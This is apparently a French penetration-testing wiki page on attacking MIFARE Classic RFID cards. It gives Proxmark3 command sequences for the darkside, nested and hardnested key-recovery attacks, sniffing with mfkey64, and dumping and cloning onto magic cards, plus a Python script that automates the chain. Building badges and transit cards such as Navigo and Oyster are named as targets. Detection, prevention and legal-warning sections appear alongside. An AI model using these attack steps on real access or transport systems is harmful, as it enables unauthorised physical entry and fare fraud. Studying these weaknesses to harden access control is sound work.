



# RFID MIFARE (HF 13.56 MHz)

> [!info] **En 1 phrase**
> MIFARE Classic repose sur la crypto **Crypto1 cassée** : avec une seule clé par défaut
> (ou en snifant une authentification), on **dump puis clone** n'importe quelle carte.

---

## Overview

| Champ | Valeur |
|---|---|
| **Type** | Protocole RFID / Smartcard contactless |
| **Domaine** | Hardware Hacking — RFID/NFC |
| **Niveau** | Beginner → Expert |
| **OS cibles** | Systèmes d'accès physique (PACS), transports, vélos en libre-service, parkings |
| **Matériel requis** | Proxmark3 (Easy ou RDV4), ACR122u, Flipper Zero, HF antenna |
| **Complexité** | Élevée (attacks Crypto1), Faible (dictionary / default keys) |
| **Dernière mise à jour** | 2026-08-16 |

---

## Concept

> MIFARE Classic est la smartcard contactless la plus déployée au monde depuis 1994.
> Son algorithme d'authentification propriétaire **Crypto-1** a été reverse-engineered en
> 2008 et est publiquement cassé. Le principe : exploiter le PRNG faible (nonces
> prévisibles) pour récupérer les clés, puis dump le contenu avant de cloner.

> [!info] **Le contexte**
> - **Secteur / bloc** : Classic 1K = 16 secteurs × 4 blocs de 16 octets. Bloc 3 = sector trailer (clé A + droits + clé B).
> - **Crypto-1** : stream cipher propriétaire, basé sur un LFSR 48-bit — le PRNG ne génère que 2^16 nonces.
> - Une seule clé par secteur suffit à lire tout le contenu.



---

## Concepts fondamentaux

### Crypto-1 stream cipher

| Terme | Définition |
|---|---|
| Crypto-1 | Stream cipher propriétaire NXP, LFSR 48-bit |
| PRNG | Ne génère que 2^16 valeurs — trivial à bruter |
| Nonce | Valeur 4 octets envoyée par la carte lors de l'auth |
| Darkside attack | Exploite le PRNG faible — 1ère clé sans rien connaître |
| Nested attack | Utilise une clé connue pour dériver les autres |
| Hardnested | Variante pour cartes récentes PRNG corrigé — Proxmark3 512K requis |
| Sector trailer | Bloc 3 de chaque secteur : clé A + droits d'accès + clé B |

### Types de cartes magiques chinoises

| Type | Bloc 0 | Backdoor | Usage |
|---|---|---|---|
| GEN 1a | Modifiable | Oui (`0x40`, `0x43`) | Clonage classique |
| GEN 2 | Modifiable | Non | Pas de backdoor |
| CUID | Inscriptible | Non | Anti-detection |
| FUID | UNE seule fois | Partielle | Écriture unique bloc 0 |
| UFUID | Plusieurs fois | Puis verrouillable | Écriture multiple puis lock |

---

## Matériel / Composants

### Outils principaux

| Outil | Type | Usage | Prix | Source |
|---|---|---|---|---|
| Proxmark3 RDV4 | Reader/Writer HF+LF | Attaques complètes | ~330€ | RfidResearchGroup |
| Proxmark3 Easy | Reader/Writer HF+LF | Budget (256K) | ~60€ | Clones chinois |
| ACR122u | Reader HF 13.56 MHz | mfoc, mfcuk | ~30€ | ACS |
| Flipper Zero | Multi-tool | NFC read/write/clone | ~170€ | Flipper Devices |
| ChameleonMini/Ultimate | Emulator | Émulation multi-UID | ~50€ | Clones |
| Carte magique GEN 1a | Tag clone | Cible de clonage | ~2€ | Marchands chinois |

### Cibles typiques

| Catégorie | Exemples | Vulnérabilités |
|---|---|---|
| Accès bâtiment | Badges employés | Crypto1 cassée, clés par défaut |
| Transport | Oyster Card, Navigo | Darkside / nested attack |
| Vélos libre-service | Vélib, OV-fiets | Clonage UID ou dump |
| Parking | Barrières automatiques | Ultralight sans crypto |

---

## Protocoles

### ISO14443 Type A

| Paramètre | Valeur |
|---|---|
| **Type** | Sans fil (inductive coupling) |
| **Vitesse** | 106 kbit/s (baseline), 212, 424, 848 kbit/s |
| **Direction** | Half-duplex |

### Authentification Crypto-1



### Comparaison des protocoles RFID HF

| Protocole | Sécurité | Clonage | Usage |
|---|---|---|---|
| MIFARE Classic 1K | Faible | Trivial avec clés | Accès, transport |
| MIFARE Classic 4K | Faible | Trivial avec clés | Transport, accès étendu |
| MIFARE Ultralight | Nulle | Dump direct | Billets NFC bon marché |
| MIFARE Ultralight C | Moyenne | Brute-force clé | Tags NFC sécurisés |
| MIFARE DESFire EV1/EV2/EV3 | Forte (AES-128) | Difficile | Paiement, accès haut de gamme |

---

## Installation / Setup

### Prérequis

| Composant | Version | Lien |
|---|---|---|
| Proxmark3 client (Iceman fork) | Latest release | github.com/RfidResearchGroup/proxmark3 |
| libnfc + ACR122u drivers | 1.7+ | libnfc.org |
| mfoc | 0.10+ | GitHub |
| mfcuk | Latest | GitHub |
| Python 3 + bitstring | 3.x | pip install bitstring |

### Compilation et flashage Proxmark3

```bash
git clone https://github.com/RfidResearchGroup/proxmark3.git
cd proxmark3
make clean && make all
./pm3-flash-all
./pm3
```

---

## Configuration

### Paramètres du client Proxmark3

| Option | Valeur par défaut | Description |
|---|---|---|
| `hf mf autopwn` | Automatique | Dictionary + nested + dump |
| `hf mf darkside` | 1 key attempt | Attaque PRNG faible |
| `hf mf nested` | 4 samples | Nonces par secteur |
| `hf mf hardnested` | w flag | Écrit nonces dans `nonces.bin` |

### Adaptateurs compatibles

| Adaptateur | Interface | Note |
|---|---|---|
| Proxmark3 RDV4 | USB (CDC) | Complet, Bluetooth, flash 256K |
| Proxmark3 Easy | USB (CDC) | Budget, 256K/512K |
| ACR122u | USB (CCID) | Bon marché, mfoc/mfcuk |
| ChameleonMini | USB (CDC) | Émulation, pas d'attaque |
| Flipper Zero | USB / NFC natif | Lecture/écriture basique |

---

## Commandes / Manipulations

### Commandes essentielles

| Commande | Description |
|---|---|
| `hf search` | Détecter un tag HF |
| `hf mf autopwn` | Attaque automatique complète |
| `hf mf darkside` | Attaque darkside (1ère clé) |
| `hf mf nested` | Nested attack (clés depuis une connue) |
| `hf mf hardnested` | Hardnested (PRNG corrigé) |
| `hf mf dump` | Dump complet (clés + données) |
| `hf mf restore` | Restaure un dump sur une carte |
| `hf mf rdbl` | Lecture d'un bloc (16 octets) |
| `hf mf wrbl` | Écriture d'un bloc |
| `hf mf sim` | Émulation d'une carte |
| `hf mf chk` | Test de clés (dictionary) |

### Séquence d'attaque rapide

```bash
# 1. Recherche
hf search

# 2. Clés par défaut
hf mf chk *1 ? t

# 3. Si échec → darkside
hf mf darkside

# 4. Nested
hf mf nested 0 0 A ffffffffffff t

# 5. Dump
hf mf dump 1

# 6. Clonage sur carte magique
hf mf restore 1
```

---

## Exemples pratiques

### Débutant — Clonage avec clés par défaut

```bash
hf search
hf mf chk *1 ? t
hf mf dump 1
hf mf restore 1
```

### Intermédiaire — Darkside + Nested Attack

```bash
hf mf darkside
hf mf nested 0 0 A ffffffffffff t
hf mf dump 1
hf mf rdbl 5 A ffffffffffff
```

### Avancé — Hardnested avec Proxmark3 512K

```python
import subprocess, os

subprocess.run(["pm3", "-c", "hf mf hardnested 0 A 8829da9daf76 4 A w"])

if os.path.exists("nonces.bin"):
    size = os.path.getsize("nonces.bin")
    print(f"[+] {size} octets collectés")
    subprocess.run(["./solve_piwi", "nonces.bin"])
```

### Expert — Sniffing + mfkey64

```python
# hf 14a snoop → hf list 14a
# Extraire paires challenge/réponse
# ./mfkey64 <uid> <nt> <nr> <ar> <at>
```

---

## Workflow complet (scénario pas à pas)



| Étape | Action | Commande |
|---|---|---|
| 1. Identification | Scanner le tag | `hf search` |
| 2. Clés | Dictionary / darkside / nested | `hf mf autopwn` |
| 3. Dump | Sauvegarder tout | `hf mf dump 1` |
| 4. Clone | Écrire sur carte magique | `hf mf restore 1` |
| 5. Test | Vérifier le clonage | `hf mf rdbl` |

---

## Scénarios avancés

### Scénario 1 — Clonage de badge d'accès bâtiment

| Élément | Détail |
|---|---|
| **Objectif** | Cloner un badge employé MIFARE Classic 1K |
| **Matériel** | Proxmark3 RDV4 + carte magique GEN 1a |
| **Étapes** | hf search → darkside → nested → dump → restore |
| **Résultat** | Badge cloné, accès physique compromis |
| **Difficulté** | |

### Scénario 2 — Sniffing d'un lecteur de transport

| Élément | Détail |
|---|---|
| **Objectif** | Capturer l'authentification lecteur/passager |
| **Matériel** | Proxmark3 RDV4 (standalone HF_14ASNIFF) |
| **Étapes** | Standalone sniff → récupérer flash → mfkey64 hors-ligne |
| **Résultat** | Clé du lecteur extraite |
| **Difficulté** | |

---

## Cybersecurity use cases

| Use case | Sévérité | Impact |
|---|---|---|
| Clonage badge d'accès | Critique | Accès non autorisé |
| Vol clés transport | Élevée | Perte de revenus |
| Attaque RFID point de vente | Élevée | Manipulation transactions |
| Reverse engineering badge | Moyenne | Compréhension système d'accès |

| Phase pentest | Ce que permet cette technique |
|---|---|
| Accès initial | Clonage badge pour accès physique |
| Maintien d'accès | Création de multiples badges clonés |
| Évasion | Badges clonés non traçables |

---

## MITRE ATT&CK

| Technique ID | Nom | Catégorie | Applicabilité |
|---|---|---|---|
| T1200 | Hardware Additions | Initial Access | Proxmark3 près du lecteur |
| T1557 | Adversary-in-the-Middle | Credential Access | MITM RFID |
| T1040 | Network Sniffing | Credential Access | Sniffing Crypto-1 |
| T1021 | Remote Services | Lateral Movement | Badge cloné |

---

## Defensive Security

### Détection

| Signal | Source | Fiabilité |
|---|---|---|
| Lectures RFID multiples en rafale | Logs contrôleur accès | Moyenne |
| UID en double sur 2 sites | Base de données badges | Élevée |
| Badge lu sans passage physique | Caméras + logs RFID | Élevée |

### Prévention

| Mesure | Efficacité | Coût | Priorité |
|---|---|---|---|
| MIFARE DESFire EV2/EV3 | Très élevée | Élevé | Haute |
| Changer clés par défaut | Élevée | Faible | Haute |
| Multi-facteur (badge + PIN) | Élevée | Moyen | Haute |
| Audit UID en double | Moyenne | Faible | Moyenne |

> [!tip] Défense
> La migration vers MIFARE DESFire EV2/EV3 avec AES-128 est la défense la plus
> efficace. En attendant, changer toutes les clés par défaut et implémenter le
> multi-facteur réduit considérablement la surface d'attaque.

---

## Automatisation

```python
#!/usr/bin/env python3
"""Script d'automatisation MIFARE Classic"""
import subprocess

def run_pm3(cmd):
    return subprocess.run(["./pm3", "-c", cmd], capture_output=True, text=True, timeout=300).stdout

def mifare_attack():
    print("[*] Recherche tag...")
    out = run_pm3("hf search")
    
    print("[*] Clés par défaut...")
    out = run_pm3("hf mf chk *1 ? t")
    
    if "Found valid key" not in out:
        print("[*] Darkside...")
        run_pm3("hf mf darkside")
        print("[*] Nested...")
        run_pm3("hf mf nested 0 0 A ffffffffffff t")
    
    print("[*] Dump...")
    run_pm3("hf mf dump 1")
    print("[+] Terminé !")

mifare_attack()
```

| Outil | Usage |
|---|---|
| Proxmark3 client (Iceman) | Toutes attaques RFID HF/LF |
| mfoc | Offline cracker (nested) |
| mfcuk | Darkside attack (ACR122u) |
| crypto1_bs | Cracking hors-ligne |
| MifareClassicTool (Android) | Mobile key testing |

---

## Output et parsing

| Format | Utilité |
|---|---|
| `.bin` (raw dump) | Dump complet binaire |
| `.eml` | Format texte, 16 octets/ligne |
| `.mfd` | Format mfoc (ACR122u) |
| `.dic` | Dictionnaire de clés |

```bash
hf mf darkside | grep "Found valid key"
script run dumptoemul -i dumpdata.bin
```

---

## Intégrations

- [[13 - Hardware & IoT| Hardware & IoT]] global
- [[Hardware - RFID et NFC| Hub RFID]]
- [[Hardware - RFID LF (125 kHz)| LF]]

| Outils associés | Usage complémentaire |
|---|---|
| [[Hardware - Proxmark]] | Outil principal d'attaque |
| [[Hardware - Flipper Zero]] | Clonage rapide terrain |
| [[Hardware - HydraNFC]] | Sniffer NFC avancé |
| [[Hardware - Pwnagotchi]] | Collecte WiFi parallèle |

---

## Alternatives

| Alternative | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| ChameleonMini | Portable, émulation multi-UID | Pas d'attaques Crypto1 | Test accès avec UID cloné |
| Flipper Zero | Tout-en-un, portable | Attaques MIFARE limitées | Clonage rapide |
| ACR122u + mfoc | Bon marché | Uniquement HF, lent | Audit basique |

---

## Performance

| Métrique | Valeur | Impact |
|---|---|---|
| Vitesse lecture | 106 kbit/s | Dump ~2-5s |
| Temps darkside | 1-30 secondes | Variable selon PRNG |
| Temps nested | 1-60 secondes | Dépend du nombre de secteurs |
| Temps hardnested | 1-30 minutes | PRNG corrigé |
| Portée | 1-10 cm | Dépend de l'antenne HF |

---

## Troubleshooting

| Problème | Cause probable | Solution |
|---|---|---|
| `hf search` ne trouve rien | Antenne déconnectée | Vérifier `hw tune` |
| Darkside échoue | PRNG corrigé | Passer au hardnested (512K) |
| Dump corrompu | Interrompu | Relancer le dump |
| BCC invalide | Mauvais UID carte magique | Vérifier `hf 14a info` |

---

## Sécurité

| Risque | Impact | Mitigation |
|---|---|---|
| Clonage badge | Accès non autorisé | DESFire + multi-facteur |
| Vol clés transport | Perte financière | Crypto renforcée (AES) |
| Attaque relay | Accès à distance | Anti-relay (timing) |

> [!danger] Cadre légal
> En France, l'accès non autorisé à un système de sécurité physique est puni par
> l'article 323-1 du Code pénal (3 ans, 45 000€). Seul un pentester avec
> autorisation écrite peut légalement tester ces vecteurs.

---

## Limitations

| Limite | Impact | Contournement |
|---|---|---|
| Portée HF (~10cm) | Proximité physique requise | Antenne longue portée |
| Crypto-1 corrigé | Hardnested obligatoire | Proxmark3 512K |
| DESFire résiste | Inutilisable sur DESFire | Attaques spécifiques DESFire |
| Cartes magiques détectables | Systèmes refusent GEN 1a | CUID / FUID / UFUID |

---

## Cheatsheet

```
┌───────────────────────────────────────────────────────┐
│ MIFARE Classic — Cheatsheet                           │
├───────────────────────────────────────────────────────┤
│ Search:     hf search                                │
│ Autopwn:    hf mf autopwn                            │
│ Darkside:   hf mf darkside                           │
│ Nested:     hf mf nested 0 0 A <key> t               │
│ Dump:       hf mf dump 1                             │
│ Restore:    hf mf restore 1                          │
│ Read:       hf mf rdbl <blk> A <key>                 │
│ Write:      hf mf wrbl <blk> A <key> <data>          │
│ Simulate:   hf mf sim u <uid>                         │
│ Snoop:      hf 14a snoop                              │
│ Check keys: hf mf chk <blk> ? <key_type>             │
└───────────────────────────────────────────────────────┘
```

| Action | Commande |
|---|---|
| Scanner | `hf search` |
| Attack auto | `hf mf autopwn` |
| Dump | `hf mf dump 1` |
| Cloner | `hf mf restore 1` |
| Émuler | `hf mf sim u <UID>` |

---

## Quick reference

| Élément | Valeur |
|---|---|
| **Fréquence** | 13.56 MHz |
| **Norme** | ISO14443 Type A |
| **Classic 1K** | 16 secteurs × 4 blocs × 16 octets |
| **Clé Crypto-1** | 48 bits (6 octets) |
| **PRNG** | 2^16 nonces possibles |
| **Vitesse** | 106 kbit/s |
| **Portée** | 1-10 cm |
| **Outil principal** | Proxmark3 (Iceman fork) |

---

## Détection & Défense

| Signal | Méthode de détection | Outil |
|---|---|---|
| Lectures RFID multiples | Logs contrôleur accès | SIEM |
| UID en double | Base badges | Script corrélation |
| Présence suspecte | Caméras IP | Video analytics |

| Countermeasure | Efficacité | Implémentation |
|---|---|---|
| DESFire EV2/EV3 | Très élevée | Remplacement badges |
| Clés uniques par secteur | Élevée | Mise à jour PACS |
| Badge + PIN | Élevée | Config contrôleur |

---

## Tips & Pièges

- **Piège 1** : Écrire le bloc 3 (`wrbl 3`) écrase les clés A/B — rend la carte inutilisable.
- **Piège 2** : Un BCC incorrect sur GEN 1a rend la carte insélectionnable (bricked).
- **Piège 3** : Les GEN 1a sont détectées par `hf search` — certains systèmes les refusent.
- **Piège 4** : Hardnested nécessite Proxmark3 512K — sur 256K, échec silencieux.
- **Astuce 1** : `hf mf autopwn` enchaîne dictionary + nested + dump automatiquement.
- **Astuce 2** : Clés par défaut (`FFFFFFFFFFFF`, `A0A1A2A3A4A5`) sur ~80% des systèmes non durcis.
- **Bonne pratique** : Toujours sauvegarder le dump original avant d'écrire sur une carte légitime.

---

## References

> [!info] **Sources**
> - [HardwareAllTheThings — HF MIFARE Classic](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/rfid-nfc/hf-mifare-classic.md)
> - [Mifare HowTo — Proxmark Wiki](https://github.com/Proxmark/proxmark3/wiki/Mifare-HowTo)
> - [RFID Hacking with Proxmark 3 — Kevin Chung](https://blog.kchung.co/rfid-hacking-with-the-proxmark-3/)
> - [Quarkslab 2024 — MIFARE Classic static encrypted nonce backdoor](https://eprint.iacr.org/2024/1275)

| Source | URL |
|---|---|
| NXP MIFARE Classic | nxp.com/products/rfid-nfc/mifare-classic |
| Proxmark3 Iceman fork | github.com/RfidResearchGroup/proxmark3 |
| MifareClassicTool | github.com/ikarus23/MifareClassicTool |
| crypto1_bs | github.com/aczid/crypto1_bs |

---

**Liens :** [[Hardware - RFID et NFC| Hub RFID]] · [[Hardware - RFID LF (125 kHz)| LF]] · [[Hardware - Amiibo et NTAG215| Amiibo]] · [[Hardware - Proxmark| Proxmark]] · [[Hardware - Flipper Zero| Flipper]] · [[Bibliothèque technique| Index]]